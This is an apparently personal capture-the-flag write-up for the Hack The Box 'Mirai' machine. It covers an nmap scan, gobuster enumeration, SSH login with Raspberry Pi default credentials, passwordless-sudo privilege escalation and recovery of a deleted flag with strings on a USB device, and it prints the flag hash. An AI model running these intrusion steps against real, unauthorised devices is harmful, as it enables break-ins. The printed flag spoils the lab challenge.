 Mirai
==========

![screenshot_1](screenshot1.png)

Solution
==========

User
-----

This machine is one of the easiest machines and the first machine I did on hack the box.

First step, just like every machine, we do a nmap scan.

`nmap -sV -sC -o 10.10.10.48 `

The result is as follows

```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-08 02:23 EST
Nmap scan report for 10.10.10.48
Host is up (0.28s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (EdDSA)
53/tcp   open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp   open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1061/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
```

We can see the common port 22 and port 80 are open.
Navigating to the webpage we were presented with a blank page.
Therefore, I did a basic web app enumeration on port 80

`gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.48 -t 25 `

we were then presented with a admin sub directory

![screenshot_2](screenshot2.png)

It's a Pi-hole application. As I just started out, I didn't know about the application before. However after a google search, 
I found out it's a DNS-sinkhole application, which acts as a DNS server that supplies false DNS information.

Now, I spent a bit time searching for known vulnerability for the application, but it later turned out that it was the wrong way.
I also tried to ssh with all the credentials that Mirai botnet used but to no avail. It seems that I was missing something
 obvious.
 
 Finally, taking account into the 'Pi'-hole application, and the targeted devices in the Mirai Botnet attack, I did an ssh 
 with the default credential of Raspberry-Pi, and got user.
 
 ![screenshot_3](screenshot3.png)
 
 root
 ------
 My first step for priv esc was `sudo -l`
 
 ```
 pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

```
It turns out we can run sudo without password!

So I became root with `sudo su` and tried to cat the root.txt file


```
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:~#
```

Not that easy huh, now we have to find the backup on a usb. Googling how to view and mount usbs.

```
root@raspberrypi:/# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
root@raspberrypi:/#
```

It seems that the usb is already mounted, not sure if it was other user cuz I didn't do a reset. Anyways you can mount
a usb with the simple command `sudo mount /dev/sdb /media/usbstick`

```
root@raspberrypi:/media/usbstick# ls -la
total 18
drwxr-xr-x 3 root root  1024 Aug 14 05:27 .
drwxr-xr-x 3 root root  4096 Aug 14 05:11 ..
-rw-r--r-- 1 root root   129 Aug 14 05:19 damnit.txt
drwx------ 2 root root 12288 Aug 14 05:15 lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:/media/usbstick#
```

Another hint leading to lost+found, but the directory lost+found is empty.
However in linux everything is a file. Doing a simple strings command on /dev/sdb:

```
root@raspberrypi:/media/usbstick# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
root@raspberrypi:/media/usbstick# 
```

There goes our root.txt!
